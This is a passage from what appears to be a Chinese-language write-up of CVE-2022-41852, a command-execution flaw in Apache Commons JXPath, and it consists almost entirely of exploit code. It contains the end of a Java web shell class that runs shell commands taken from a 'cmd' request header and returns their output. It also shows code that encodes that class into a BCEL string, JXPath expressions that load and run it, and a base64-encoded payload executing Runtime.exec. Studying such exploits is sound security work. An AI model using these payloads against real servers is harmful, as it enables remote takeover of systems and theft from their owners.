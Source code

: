 ```java
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);
            String cmd = (String)getHeader.invoke(req, "cmd");
            String[] commands = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                commands[0] = "cmd";
                commands[1] = "/c";
            } else {
                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = cmd;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream()).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        } catch (Exception e) {

        }

    }
}
```

```java
public static void main(String[] args) throws Exception {
    JavaClass javaClass = Repository.lookupClass(Evil.class);
    String encode = Utility.encode(javaClass.getBytes(), true);
    System.out.println("$$BCEL$$" + encode);
}
```

```java
newInstance(loadClass(com.sun.org.apache.bcel.internal.util.ClassLoader.new(),BCEL_Code))
```

官方wp：

```java
runMain(com.sun.org.apache.bcel.internal.util.JavaWrapper.new(),BCEL_Code,'')
```



其他一些想法：

```java
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'), java.lang.String.new(decode(java.util.Base64.getDecoder(), "amF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoImNhbGMiKQ==")))
```

## Reference

* [浅析Apache Commons Jxpath命令执行分析(CVE-2022-41852) | Y4tacker's Blog](https://y4tacker.github.io/2022/10/13/year/2022/10/浅析Apache-Commons-Jxpath命令执行分析-CVE-2022-41852/)
* [CVE-2022-41852 Apache Commons Jxpath 命令执行漏洞分析 (seebug.org)](https://paper.seebug.org/1992/)
